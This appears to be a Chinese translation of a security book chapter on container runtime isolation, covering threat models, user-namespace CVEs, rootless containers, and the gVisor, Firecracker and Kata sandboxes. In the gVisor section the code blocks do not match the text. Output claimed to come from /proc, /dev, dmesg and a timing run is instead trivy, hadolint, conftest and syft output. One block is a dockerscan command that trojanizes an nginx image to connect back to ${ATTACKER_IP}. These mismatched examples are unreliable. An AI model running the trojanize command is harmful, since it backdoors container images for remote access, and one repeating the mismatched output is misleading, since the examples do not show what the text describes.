


# 第三章：容器运行时隔离

Linux 已经发展出超越简单虚拟机（VM）的沙箱化和隔离技术，使其能够抵御当前和未来的漏洞。有时这些沙箱被称为*微型 VM*。

这些沙箱结合了所有先前容器和 VM 方法的部分。你可以使用它们来保护敏感工作负载和数据，因为它们专注于在共享基础设施上快速部署和高性能。

在本章中，我们将讨论不同类型的微型 VM，它们将虚拟机和容器结合在一起，以保护你正在运行的 Linux 内核和用户空间。通用术语*沙箱化*用于涵盖整个光谱：本章中的每个工具都结合了软件和硬件虚拟化技术，并使用 Linux 的内核虚拟机（KVM），这在包括亚马逊云服务和谷歌云在内的公共云服务中被广泛使用来支持 VM。

在 BCTL 上运行大量工作负载，你应该记住，虽然这些技术也可以防止 Kubernetes 错误，但你所有面向网络的软件和基础设施是首要防御的更明显的地方。与简单的安全敏感性配置错误相比，零日漏洞和容器越狱相对较少。

强化运行时是较新的，通常比内核或更成熟的容器运行时具有更少的危险 CVE，因此我们将更少关注历史性的越狱，而更多关注微型 VM 设计和原理的历史。

# 默认设置

`kubeadm` 使用 `runc` 作为其容器运行时安装 Kubernetes，使用 `cri-o` 或 `containerd` 进行管理。在 Kubernetes v1.20 中移除了旧的通过 `dockershim` 运行 `runc` 的方式，因此尽管 Kubernetes 不再使用 Docker，但 Docker 构建的 `runc` 容器运行时仍继续为我们运行容器。图 3-1 展示了 Kubernetes 可以使用 `runc` 容器运行时的三种方式：CRI-O、`containerd` 和 Docker。


###### 图 3-1 Kubernetes 容器运行时接口

我们将在本章后面详细讨论容器运行时。

# 威胁模型

隔离工作负载或 pod 的主要原因有两个——它可能访问敏感信息和数据，或者可能不受信任并对系统的其他用户具有潜在敌意：

+   *敏感*的工作负载是那些数据或代码对于未经授权访问太重要的工作负载。这可能包括欺诈检测系统、定价引擎、高频交易算法、个人可识别信息（PII）、财务记录、可能在其他系统中重复使用的密码、机器学习模型或组织的“秘密配方”。敏感工作负载是宝贵的。

+   *不受信任*的工作负载是可能危险的工作负载。它们可能允许高风险用户输入或运行外部软件。

潜在不受信任的工作负载示例包括：

+   云提供商的虚拟化程序上的 VM 工作负载

+   CI/CD 基础设施易受构建时供应链攻击影响。

+   转码复杂文件，可能存在解析器错误

不受信任的工作负载可能还包括具有已发布或怀疑存在零日漏洞 (CVE) 的软件 —— 如果没有可用的补丁，并且工作负载对业务至关重要，则进一步隔离它可能会降低漏洞被利用时的潜在影响。

###### 注意

运行不受信任工作负载的主机面临的威胁是工作负载或进程本身。通过沙盒化进程并移除其可用的系统 API，减少主机对进程的攻击面。即使该进程被 compromise，对主机的风险也较小。

BCTL 允许用户上传文件以导入数据和船运清单，因此存在威胁行动者试图上传格式错误或恶意文件以尝试强制利用软件错误。负责运行批处理转换和处理工作负载的 Pod 是沙盒化的良好候选对象，因为它们正在处理不受信任的输入，如 图 3-2 所示。


###### 图 3-2\. 沙盒化风险批量工作负载

###### 注意

用户通过应用程序提供的任何数据都可能是不受信任的，但大多数输入会以某种方式进行消毒（例如，根据整数或字符串类型验证）。像 PDF 或视频这样的复杂文件无法通过这种方式消毒，并依赖于编码库的安全性，有时它们并不安全。此类漏洞通常是“逃逸”的，如 CVE-X 或 ImageTragick。

您的威胁模型可能包括：

+   不受信任的用户输入触发了工作负载中的漏洞，攻击者利用此漏洞执行恶意代码。

+   敏感应用程序遭到 compromise，攻击者试图窃取数据。

+   在受 compromise 的节点上，恶意用户尝试读取主机上其他进程的内存。

+   新的沙盒代码测试不足，可能包含可利用的漏洞。

+   容器镜像构建从未经身份验证的外部源拉取恶意依赖项和代码，可能包含恶意软件。

###### 注意

现有的容器运行时默认带有一些加固措施，Docker 使用默认的 `seccomp` 和 AppArmor 配置文件，这些配置会禁用大量未使用的系统调用。这些在 Kubernetes 中默认未启用，必须通过准入控制或 PodSecurityPolicy 强制执行。在 v1.22 中，`SeccompDefault=true` kubelet 功能开关恢复了这种容器运行时的默认行为。

现在我们对系统的威胁有了一个概念，让我们退一步。我们将探讨虚拟化：它是什么，为什么我们使用容器，以及如何结合容器和虚拟机的最佳部分。

# 容器、虚拟机和沙盒

容器与虚拟机的一个主要区别在于容器存在于共享主机内核上。虚拟机在每次启动时启动一个内核，使用硬件辅助虚拟化，并且具有更安全但传统上速度较慢的运行时。

一种普遍看法是，容器被优化用于速度和可移植性，而虚拟机则牺牲了这些特性以获得更强大的隔离免受恶意行为和更高的容错能力。

这种看法并不完全正确。这两种技术在内核本身中共享许多常见的代码路径。容器和虚拟机就像共轨运行的恒星一样演化，永远无法完全摆脱彼此的引力。容器运行时是一种内核虚拟化形式。OCI（[开放容器倡议](https://oreil.ly/RCCWR)）容器镜像规范已成为容器部署的标准化原子单位。

下一代沙盒结合了容器和虚拟化技术（参见图 3-3）以减少工作负载对内核的访问。它们通过在用户空间或隔离的宿主环境中模拟内核功能来实现这一点，从而将宿主的攻击面减少到沙盒内部的进程。明确定义的接口可以帮助减少复杂性，最小化未经测试的代码路径的机会。通过与`containerd`集成，这些沙盒还能与 OCI 镜像和软件代理（“shim”）进行交互，以连接两个不同的接口，这可以与像 Kubernetes 这样的编排器一起使用。


###### 图 3-3\. 容器隔离方法的比较；来源：克里斯蒂安·巴格曼和玛丽娜·特罗普曼-弗里克的[容器隔离论文](https://oreil.ly/4slD4)

这些沙盒技术对于公共云提供商尤为重要，对于他们来说，多租户和容器装箱是非常有利可图的。像谷歌云函数和 AWS Lambda 这样的激进多租户系统正在运行“作为服务的不受信任代码”，而这种隔离软件源自云供应商对将无服务器运行时与其他租户隔离的安全要求。多租户将在下一章中深入讨论。

云服务提供商将虚拟机作为计算的原子单位，但它们也可能将根虚拟机进程包装在类似容器的技术中。然后客户使用虚拟机来运行容器—虚拟化的内嵌。

传统虚拟化在软件中模拟物理硬件架构。微型虚拟机尽可能模拟小的 API，删除诸如 I/O 设备甚至系统调用等功能，以确保最小权限。然而，它们仍在运行相同的 Linux 内核代码来执行低级程序操作，如内存映射和打开套接字—只是通过额外的安全抽象来创建默认安全的运行时。因此，即使虚拟机没有像容器那样共享内核的那么多，一些系统调用仍必须由宿主内核执行。

软件抽象需要 CPU 时间来执行，因此虚拟化必须始终在安全性和性能之间取得平衡。可能会添加足够多的抽象层和间接性，使一个进程被视为“高度安全”，但最终这种极致安全可能不会带来可行的用户体验。而单内核则朝着另一个方向发展，跟踪程序的执行，然后除了程序使用的功能之外几乎移除所有内核功能。观测性和可调试性或许是单内核没有得到广泛采纳的原因。

要理解每种方法中固有的权衡和妥协，重要的是理解虚拟化类型的比较。虚拟化已存在很长时间，并且有许多变种。

## 虚拟机的工作原理

尽管虚拟机及其相关技术自 20 世纪 50 年代末以来就已存在，但在 1990 年代由于缺乏硬件支持而暂时衰退。在这段时间内，“进程虚拟机”变得越来越流行，特别是 Java 虚拟机（JVM）。在本章中，我们专指系统虚拟机：一种不受特定编程语言限制的虚拟化形式。例如 KVM/QEMU、VMware、Xen、VirtualBox 等。

虚拟机研究始于 20 世纪 60 年代，旨在便于多个用户和进程之间共享大型昂贵的物理机器（见图 3-4）。要安全地共享物理主机，必须在租户之间实施某种程度的隔离，以及在敌对租户情况下，应该大幅减少对底层系统的访问权限。


###### 图 3-4\. 虚拟化的家族树；来源：[“理想与现实”](https://oreil.ly/7OLfk)

这是在硬件（CPU）、软件（内核和用户空间）或两者层间的协作中执行的，并允许许多用户共享相同的大型物理硬件。这种创新成为公共云采用的主要技术：为进程、内存和它们从物理主机机器上需求的资源提供安全共享和隔离。

主机机器被分割为较小的孤立计算单元，传统上称为客户（见图 3-5）。这些客户与位于物理主机 CPU 和设备上方的虚拟化层进行交互。该层拦截系统调用以自行处理：将它们代理给主机内核，或者在可能的情况下自行处理请求——执行内核的工作。全虚拟化（例如 VMware）模拟硬件并在客户内部启动完整内核。操作系统级虚拟化（例如容器）模拟主机的内核（即使用命名空间、`cgroups`、功能和`seccomp`），因此可以直接在主机内核上启动容器化进程。容器中的进程与 VM 中执行的进程相似，共享许多内核路径和安全机制。


###### 图 3-5\. 服务器虚拟化；来源：[“理想与现实”](https://oreil.ly/oNBFf)

要引导内核，客户操作系统将需要访问主机机器功能的子集，包括 BIOS 例程、设备和外围设备（例如键盘、图形/控制台访问、存储和网络）、中断控制器和间隔定时器、熵源（用于随机数种子）以及其将在其中运行的内存地址空间。

每个客户虚拟机内部都有一个环境，其中可以运行进程（或工作负载）。虚拟机本身由一个特权父进程拥有，负责管理其设置和与主机的交互，称为*虚拟机监视器*或 VMM（如图 3-6 所示）。这也被称为超级监视器，但是随着较新方法的出现，这两者之间的区别变得模糊，因此更倾向于使用原始术语 VMM。


###### 图 3-6\. 一个虚拟机管理器

Linux 具有名为 KVM 的内置虚拟机管理器，允许主机内核运行虚拟机。与 QEMU 一起，后者模拟物理设备并为客户提供内存管理（必要时可以单独运行），操作系统可以通过客户 OS 和 QEMU 完全模拟运行（与图 3-7 中的 Xen hypervisor 相对）。此模拟缩小了 VM 与主机内核之间的接口，并减少了 VM 内部进程可以直接访问的内核代码量，从而提供了更高级别的隔离以防止未知的内核漏洞。


###### 图 3-7\. KVM 与 Xen 和 QEMU 的对比；来源：[KVM 与 QEMU 之间的区别是什么](https://oreil.ly/k1bJ1)

###### 注意

尽管经过多年的努力，“在实践中，没有一个虚拟机完全等同于其真实机器的对应物”（[“理想与现实”](https://oreil.ly/oNBFf)）。这是由于模拟硬件的复杂性所致，并且希望减少我们生活在模拟中的可能性。

## 虚拟化的好处

像所有我们试图保护的东西一样，虚拟化必须在性能和安全性之间取得平衡：通过在运行时尽可能少的额外检查来降低运行负载的风险。对于容器来说，共享主机内核是一个潜在的容器逃逸通道——Linux 内核拥有悠久的遗产和单片式代码库。

Linux 主要使用 C 语言编写，具有内存管理类和范围检查漏洞，这些漏洞被证明是极难完全消除的。许多应用程序在面对模糊测试时都曾遇到这些可利用的漏洞。这种风险意味着我们希望将恶意代码远离信任接口，以防它们具有零日漏洞。这是一种相当严格的防御态度——它的目的是减少攻击者利用零日 Linux 漏洞的任何机会窗口。

###### 注意

谷歌的 [OSS-Fuzz](https://oreil.ly/8LAkV) 项目诞生于围绕 Heartbleed OpenSSL 漏洞的漩涡之中，这个漏洞可能在野外存在了长达两年之久。像 OpenSSL 这样的关键互联网项目资金匮乏，开源社区中存在大量善意，因此在这些漏洞被利用之前发现它们是保护关键软件的重要步骤。

沙盒模型通过抽象防御零日漏洞。它将进程从 Linux 系统调用接口中移开，以减少利用它的机会，使用各种容器和能力、LSM 和内核模块、硬件和软件虚拟化以及专用驱动程序。大多数最新的沙盒使用像 Golang 或 Rust 这样的类型安全语言，这使得它们的内存管理比使用 C 编程的软件更安全（后者需要手动且潜在存在错误的内存管理）。

## 容器有何问题？

让我们进一步定义一下我们所说的容器，看看它们如何与主机内核交互，如图 Figure 3-8 所示。

容器直接与主机内核通信，但是 LSM、能力和命名空间的层确保它们不能完全访问主机内核。相反，虚拟机（VM）使用客户机内核（在虚拟化程序中运行的专用内核）。这意味着如果 VM 的客户机内核受到损害，则需要更多工作才能从虚拟化程序中打破出来并进入主机。


###### 图 3-8\. 主机内核边界

容器由低级容器运行时创建，作为用户，我们与控制它的高级容器运行时交互。

图 3-9 中的图表显示了高级接口，容器管理器位于左侧。然后，Kubernetes、Docker 和 Podman 与各自的库和运行时进行交互。这些功能包括推送和拉取容器镜像、管理存储和网络接口，并与低级容器运行时进行交互。


###### 图 3-9\. 容器抽象；来源：[“CRI-O、Kata Containers 和 Podman 的最新情况”](https://oreil.ly/2Mx7n)

在图 3-9 的中间列中是您的 Kubernetes 集群与之交互的容器运行时，而右列是负责启动和管理容器的低级运行时。

那个低级容器运行时直接负责启动和管理容器，与内核接口以创建命名空间和配置，并最终在容器中启动进程。它还负责处理容器内部的进程，并在运行时将其系统调用传递给主机内核。

## 用户命名空间漏洞

Linux 最初的核心假设是：根用户始终在主机命名空间中。这一假设在没有其他命名空间时成立。但随着用户命名空间的引入（最后一个完成的主要内核命名空间），开发用户命名空间需要对涉及根用户的代码进行多次代码更改。

用户命名空间允许您将容器中的用户映射到主机上的其他用户，因此容器中的 ID 0（root）可以在卷上创建文件，而从容器内部看，这些文件看起来是由 root 拥有。但是当您从主机检查同一卷时，它们显示为由映射到的用户拥有（例如，用户 ID 为 1000 或 110000，如图 3-10 所示）。尽管正在进行支持工作，但用户命名空间在 Kubernetes 中并未启用。


###### 图 3-10\. 用户命名空间用户 ID 重映射

在 Linux 中，一切都是文件，文件由用户拥有。这使得用户命名空间具有广泛和复杂的影响，并且它们曾经是 Linux 早期版本中特权升级漏洞的源头：

[CVE-2013-1858](https://oreil.ly/5UHB1) (用户命名空间 & CLONE_FS)

Linux 内核在 3.8.3 版本之前的克隆系统调用实现未正确处理`CLONE_NEWUSER`和`CLONE_FS`标志的组合，允许本地用户通过调用`chroot`并利用父进程与子进程之间共享/目录的方式获取特权。

[CVE-2014-4014](https://oreil.ly/iRKjY) (用户命名空间 & chmod)

在 Linux 内核版本 3.14.8 之前的 capabilities 实现中，未正确考虑到命名空间对于 inode 不适用的事实，这使得本地用户可以通过首先创建用户命名空间来绕过预期的`chmod`限制，例如在具有`root`组所有权的文件上设置`setgid`位。

[CVE-2015-1328](https://oreil.ly/uCaNj)（用户命名空间和 OverlayFS（仅限 Ubuntu））

在 Ubuntu 版本直到 15.04 之前的 Linux 内核包中的 3.19.0-21.21 之前的`overlayfs`实现未正确检查上层文件系统目录中的文件创建权限，允许本地用户通过配置，在任意挂载命名空间中允许`overlayfs`来获取 root 访问权限。

[CVE-2018-18955](https://oreil.ly/8YIWz)（用户命名空间和复杂 ID 映射）

在 Linux 内核 4.15.x 到 4.19.x 版本的 4.19.2 之前，在*kernel/user_namespace.c*中的`map_write()`存在特权提升漏洞，因为它在具有超过 5 个`UID`或`GID`范围的嵌套用户命名空间中处理不当。在受影响的用户命名空间中具有`CAP_SYS_ADMIN`权限的用户可以绕过对命名空间外资源的访问控制，例如读取*/etc/shadow*。这是因为对于命名空间到内核方向的 ID 转换处理正确，但对于内核到命名空间方向则不正确。

容器本身并非“不安全”，但正如我们在第二章中看到的，它们可能会泄漏关于主机的一些信息，而 root-owned 容器运行时则是敌意进程或容器镜像的潜在利用路径。

###### 提示

在主机网络命名空间中创建网络适配器和挂载主机磁盘等操作通常需要具有 root 权限，这使得非 root 容器的实现更加困难。在流行的容器使用的第一个十年中，rootfull 容器运行时是唯一可行的选择。

[利用](https://oreil.ly/ZZyRQ)这一根源问题的攻击包括通过*/proc/self/exe*替换容器内的`runc`二进制文件的[CVE-2019-5736](https://oreil.ly/ZZyRQ)，以及在响应`docker cp`时从容器内部攻击主机的[CVE-2019-14271](https://oreil.ly/DSKFf)。

通过在“非特权用户命名空间”模式下运行 rootless 容器来缓解关于 root-owned 守护程序的基本问题：使用非 root 用户在其自己的用户命名空间内创建容器。这在 Docker 20.0X 和 Podman 中得到支持。

*Rootless*意味着低级别容器运行时进程由非特权用户拥有，因此通过进程树进行的容器突破仅会逃逸到非 root 用户，从而使一些潜在的攻击失效。

###### 注意

无根容器引入了一种希望更少危险的风险——用户命名空间在历史上一直是漏洞的丰富源泉。关于运行根所有守护程序还是用户命名空间更危险的问题没有明确答案，尽管任何降低根权限的行为可能是更有效的安全边界。从根守护的 Docker 中出现更多突破是因为其被广泛使用和采纳。

无根容器（没有根所有守护程序）与拥有根所有守护程序相比，提供了安全边界。当主机的根用户拥有的代码被恶意进程 compromise 时，它可能读取和写入其他用户的文件，攻击网络及其流量，或向主机安装恶意软件。

在宿主用户命名空间、容器用户命名空间和无根运行时的用户映射中，用户标识符（UIDs）的映射依赖于宿主用户命名空间和容器用户命名空间的用户映射，如 图 3-11 所示。


###### 图 3-11\. 容器抽象；来源：[“Rootless Docker 实验”](https://oreil.ly/B2KzQ)

用户命名空间允许非根用户假装成宿主的根用户。“在用户命名空间中的根” 用户可以拥有“假” UID 0，并且有权限创建新的命名空间（挂载、网络、uts、ipc）、更改容器的主机名和挂载点。

这使得在用户命名空间中的根用户，即在宿主命名空间中无特权的用户，可以创建新的容器。为了实现这一点，需要进行额外的工作：只有宿主的根用户才能创建进入宿主网络命名空间的网络连接。对于无根容器，使用一个非特权的 *slirp4netns* 网络设备（由 `seccomp` 保护）来创建一个虚拟网络设备。

不幸的是，当远程系统（例如 NFS 主目录）不理解主机的用户命名空间时，挂载远程文件系统变得困难。

在 [无根 Podman 指南](https://oreil.ly/YjwLF) 中，[Dan Walsh](https://oreil.ly/QzBhv) 表示：

> 如果正常进程在 NFS 共享上创建文件，并且没有利用用户命名空间功能，那么一切都正常工作。问题出现在容器内的根进程需要在需要特殊能力访问 NFS 共享上执行某些操作时。在这种情况下，远程内核将不会了解这种能力，并且很可能拒绝访问。

虽然无根 Podman 支持 SELinux（以及通过 [udica](https://oreil.ly/AuSMF) 支持动态配置文件支持），但无根 Docker 尚不支持 AppArmor，对于这两种运行时，都禁用了 CRIU（用户空间的检查点/恢复，用于冻结运行中的应用程序）。

两种无根运行时都需要对一些网络功能进行配置：内核要求`CAP_NET_BIND_SERVICE`用于绑定到低于 1024 的端口（历来被视为特权边界），如果高 UID 用户不在*/proc/sys/net/ipv4/ping_group_range*中，则不支持 ping（尽管主机根用户可以更改此设置）。不允许使用主机网络（因为这会破坏网络隔离），`cgroups` v2 在`systemd`下运行时是有效的，但两种无根实现都不支持`cgroup` v1。关于[rootless Podman 的不足之处](https://oreil.ly/3SWtT)有更多细节。

Docker 和 Podman 使用`runc`，因此它们在性能和功能上相似，尽管 Docker 具有已建立的网络模型，在无根模式下不支持主机网络，而 Podman 则重用 Kubernetes 的容器网络接口（CNI）插件，提供更大的网络部署灵活性。

无根容器降低了运行容器映像的风险。无根性阻止利用漏洞升级到根权限，尽管某些软件通常需要使用`SETUID`和`SETGID`二进制文件来避免以根身份运行进程。

虽然无根容器可以保护主机免受容器的影响，但仍可能从主机读取某些数据，尽管对于对手而言这将大大减少其用途。与潜在特权升级点（包括*/proc*、主机设备和内核接口等）的交互需要根权限。

在这些抽象层面中，系统调用仍由潜在不安全的 C 语言编写的软件最终处理。在 Linux 内核中，无根运行时是否暴露于基于 C 的系统调用真的很糟糕吗？嗯，C 语言驱动着互联网（和世界？）已有几十年，但其缺乏内存管理导致同样的关键漏洞一次又一次地发生。当内核、OpenSSL 和其他关键软件都采用 C 语言编写时，我们只想尽可能远离信任的内核空间。

###### 注意

[Whitesource 建议](https://oreil.ly/yyD5o)，在过去的 10 年中，C 语言占所有报告的漏洞的 47%。这可能主要是由于其广泛应用和长寿命，但也突显了固有的风险。

虽然“精简版”内核存在（如 unikernels 和 rump kernels），许多传统和遗留应用程序可以在不修改代码的情况下移植到容器运行时环境中。要实现 unikernel 的这一壮举，需要将应用程序移植到新的精简内核上。容器化应用程序通常是开发者无阻力的体验，这一点促成了容器的成功。

# 沙箱化

如果一个进程能够利用内核，它就能接管运行该内核的系统。这是像 Hashjack 队长这样的对手试图利用的风险，因此云提供商和硬件供应商一直在开发不同的方法，以减少客户机与 Linux 系统调用的交互。

Linux 容器是一种轻量级的隔离形式，允许工作负载直接使用内核 API，最小化抽象层。沙箱采用多种其他方法，通常也使用容器技术。

###### 提示

Linux 的内核虚拟机（KVM）是一个允许内核作为 hypervisor 运行其自身嵌套版本的模块。它使用处理器的硬件虚拟化命令，并允许每个“客户机”在虚拟机中运行一个完整的 Linux 或 Windows 操作系统，具有私有的虚拟化硬件。虚拟机与容器不同，因为客户机的进程在其自己的内核上运行：容器进程始终共享主机内核。

沙箱结合了虚拟化和容器隔离的优点，以优化特定的使用场景。

gVisor 和 Firecracker（分别使用 Golang 和 Rust 编写）都基于这样的假设运行：它们的静态类型化系统调用代理（在工作负载/客户进程与主机内核之间）比 Linux 内核本身更安全，而性能影响不大。

gVisor 启动 KVM 或以 `ptrace` 模式运行（使用调试 `ptrace` 系统调用来监视和控制其客户机），在内部启动一个用户空间内核，它通过一个“哨兵”进程将系统调用代理到主机。这个受信任的进程重新实现了 237 个 Linux 系统调用，只需要 53 个主机系统调用来操作。它通过 `seccomp` 来限制系统调用的列表。它还启动一个配套的“文件系统交互”边缘进程称为 Gofer，以防止被攻陷的哨兵进程与主机文件系统交互，并最终实现了自己的用户空间网络堆栈以隔离其与 Linux TCP/IP 堆栈中的错误。

另一方面，Firecracker 使用 KVM 同样启动一个精简的设备仿真器，而不是像传统的 Linux 虚拟机那样实现庞大的 QEMU 进程来仿真设备。这减少了主机的攻击面，并去除了不必要的代码，自身只需要 36 个系统调用来运行。

最后，在图 3-12 的另一端，KVM/QEMU 虚拟机仿真硬件，因此提供了客户机内核和完整设备仿真，这增加了启动时间和内存占用。



###### 图 3-12\. 隔离的谱系

虚拟化通过 CPU 集成提供更好的硬件隔离，但由于客户机与底层主机之间的抽象层，启动和运行速度较慢。

容器轻便且适合大多数工作负载的安全需求。它们已在世界各地的跨国组织中生产使用。但高敏感度的工作负载和数据需要更高的隔离性。您可以按风险对工作负载进行分类：

+   此应用程序是否访问敏感或高价值资产？

+   此应用程序能否接收不受信任的流量或输入？

+   此应用程序以前有过漏洞或错误吗？

如果答案是肯定的，您可能希望考虑使用下一代沙盒技术进一步隔离工作负载。

gVisor、Firecracker 和 Kata Containers 各自采用不同的虚拟机隔离方法，但目标都是挑战慢启动时间和高内存开销的看法。

###### 注意

Kata Containers 是一个容器运行时，启动一个虚拟机并在其中运行一个容器。它具有广泛的兼容性，并可以将`firecracker`作为客户端运行。

表 3-1 比较了这些沙盒技术及其一些关键特性。

表 3-1. 沙盒功能比较；来源：[“增强容器隔离性：沙盒化容器技术概述”](https://oreil.ly/vpKaB)

|  | 支持的容器平台 | 专用客户端内核 | 支持不同的客户端内核 | 开源 | 热插拔 | 直接访问硬件 | 所需的虚拟化管理程序 | 由...支持 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| gVisor | Docker, K8s | Yes | No | Yes | No | No | None | Google |
| Firecracker | Docker | Yes | Yes | Yes | No | No | KVM | Amazon |
| Kata | Docker, K8s | Yes | Yes | Yes | Yes | Yes | KVM 或 Xen | OpenStack |

每个沙盒结合了虚拟机和容器技术：一些虚拟机管理进程，在虚拟机内核内运行 Linux 内核，Linux 用户空间在内核引导后运行进程，以及一些内核基础的隔离（例如容器风格的命名空间、`cgroups`或`seccomp`），这些隔离要么在虚拟机内部，要么在虚拟机管理程序周围，或者两者的组合。

让我们仔细看看每个技术。

## gVisor

Google 的 gVisor 最初是为了允许不受信任的、由客户提供的工作负载在 Borg 上的 App Engine 中运行而构建的，Borg 是 Google 的内部编排器和 Kubernetes 的前身。它现在保护 Google Cloud 产品：App Engine 标准环境、Cloud Functions、Cloud ML Engine 和 Cloud Run，并已修改以在 GKE 中运行。在本章的沙盒技术中，它具有最好的 Docker 和 Kubernetes 集成。

###### 注意

要运行这些示例，必须在主机或工作节点上安装[gVisor 运行时二进制文件](https://oreil.ly/Tj3hX)。

Docker 支持可插拔的容器运行时，简单的`docker run -it --runtime=runsc`启动了一个 gVisor 隔离的 OCI 容器。让我们看看在一个普通的 gVisor 容器中*/proc*目录中有什么，以便与标准的`runc`进行比较：

```
$ trivy fs . 
2021-02-22T10:11:32.657+0100    INFO    Detected OS: unknown
2021-02-22T10:11:32.657+0100    INFO    Number of PL dependency files: 2
2021-02-22T10:11:32.657+0100    INFO    Detecting gomod vulnerabilities...
2021-02-22T10:11:32.657+0100    INFO    Detecting npm vulnerabilities...

infra/build/go.sum
==================================
Total: 2 (UNKNOWN: 0, LOW: 0, MEDIUM: 0, HIGH: 2, CRITICAL: 0) 

+-----------------------------+------------------+----------+-------------...
|           LIBRARY           | VULNERABILITY ID | SEVERITY |         INST...
+-----------------------------+------------------+----------+-------------...
| github.com/dgrijalva/jwt-go | CVE-2020-26160   | HIGH     | 3.2.0+incomp...
|                             |                  |          |             ...
|                             |                  |          |             ...
+-----------------------------+------------------+          +-------------...
| golang.org/x/crypto         | CVE-2020-29652   |          | 0.0.0-202006...
|                             |                  |          |             ...
|                             |                  |          |             ...
|                             |                  |          |             ...
+-----------------------------+------------------+----------+-------------...

infra/api/code/package-lock.json
==================================================
Total: 0 (UNKNOWN: 0, LOW: 0, MEDIUM: 0, HIGH: 0, CRITICAL: 0) 
```

###### 注意

从此目录中删除特殊文件可防止恶意进程访问底层主机内核中相关功能。

*/proc*中的条目比`runc`容器中少得多，如此差异显示：

```
$ docker save nginx:latest -o webserver.tar 
$ dockerscan image modify trojanize webserver.tar \ 
  --listen "${ATTACKER_IP}" --port "${ATTACKER_PORT}" 
  --output trojanized-webserver 
```

模拟 Linux 系统调用接口的 Sentry 进程重新实现了 Linux 5.3.11 版本中约 350 个可能的系统调用中的超过 235 个。这向你展示了*/proc*和*/dev*虚拟文件系统的“屏蔽”视图。这些文件系统历来通过从主机共享信息（内存、设备、进程等）泄露容器抽象，因此是一个特别关注的领域。

让我们看看 gVisor 和`runc`下*/dev*中的系统设备：

```
$ docker run --rm -i hadolint/hadolint < Dockerfile
/dev/stdin:3 DL3008 Pin versions in apt get install.
/dev/stdin:5 DL3020 Use COPY instead of ADD for files and folders
```

我们可以看到`runsc` gVisor 运行时去除了`console`和`core`设备，但在*/dev/net/tun*目录（在*net/*目录下）中包含了一个`/dev/net/tun`设备，用于其`netstack`网络堆栈，该堆栈也运行在 Sentry 内。Netstack 可以被绕过以进行直接主机网络访问（牺牲一些隔离性），或者完全禁用主机网络以实现完全主机隔离的网络（取决于在沙箱中配置的 CNI 或其他网络）。

除了这些线索，gVisor 在启动时很好地标识自己，你可以在使用`dmesg`查看容器时看到：

```
$ conftest test --policy ./test/policy --all-namespaces Dockerfile
2 tests, 2 passed, 0 warnings, 0 failures, 0 exceptions
```

值得注意的是这不是启动容器所需的真实时间，而且古怪的消息是随机生成的—不要依赖它们进行自动化。如果我们计时该过程，我们会看到它比它声称的启动得更快：

```
user@host:~ [0]$ syft packages controlplane/bizcard:latest -o cyclonedx
Loaded image
Parsed image
Cataloged packages      [0 packages]
<?xml version="1.0" encoding="UTF-8"?>
<bom xmlns="http://cyclonedx.org/schema/bom/1.2"
    version="1" serialNumber="urn:uuid:18263bb0-dd82-4527-979b-1d9b15fe4ea7">
  <metadata>
    <timestamp>2021-05-30T19:15:24+01:00</timestamp>
    <tools>
      <tool>
        <vendor>anchore</vendor>   
        <name>syft</name>          
        <version>0.16.1</version>  
      </tool>
    </tools>
    <component type="container">  
      <name>controlplane/bizcard:latest</name> 
      <version>sha256:183257b0183b8c6420f559eb5591885843d30b2</version> 
    </component>
  </metadata>
  <components></components>
</bom>
```

除非运行在沙箱中的应用程序明确检查环境的这些特性，否则它将不知道自己在沙箱中。你的应用程序与普通的 Linux 内核做同样的系统调用，但是 Sentry 进程拦截这些系统调用，如图 3-13 所示。


###### 图 3-13\. gVisor 容器组件和权限边界

Sentry 阻止应用程序直接与主机内核交互，并具有`seccomp`配置文件，限制其可能的主机系统调用。这有助于防止在租户突破 Sentry 并尝试攻击主机内核时的升级。

实现用户空间内核是一项艰巨的任务，它并未覆盖每个系统调用。这意味着一些应用程序无法在 gVisor 中运行，尽管实际情况下这种情况并不经常发生，在 Google Cloud Platform 的 gVisor 下运行着数百万的工作负载。

Sentry 有一个名为 Gofer 的附属进程。它处理磁盘和设备，这些设备通常是常见的虚拟机攻击向量。分离这些责任增加了你的抵抗力；如果 Sentry 存在漏洞，它无法直接攻击主机设备，因为所有设备都通过 Gofer 代理。

###### 注意

gVisor 使用[Go](https://Golang.org)编写，以避免可能影响内核安全性的问题。Go 是强类型语言，具有内置的边界检查，没有未初始化的变量，没有使用后释放的 bug，没有栈溢出 bug，并内置了竞态检测器。然而，使用 Go 也面临挑战，而运行时通常会引入一些性能开销。

然而，这种方式的代价是降低了一些应用程序的兼容性，并增加了每个系统调用的开销。当然，并不是所有的应用程序都会大量使用系统调用，因此这取决于使用方式。

应用程序系统调用通过平台系统调用切换器重定向到 Sentry，在应用程序尝试向内核进行系统调用时拦截应用程序。然后 Sentry 为容器化进程向宿主进行所需的系统调用，如图 3-14 所示。这种代理方式阻止了应用程序直接控制系统调用。


###### 图 3-14\. gVisor 容器组件和权限级别

Sentry 在一个循环中等待应用程序生成系统调用，如图 3-15 所示。


###### 图 3-15\. gVisor sentry 伪代码；来源：[资源共享](https://oreil.ly/s1DjO)

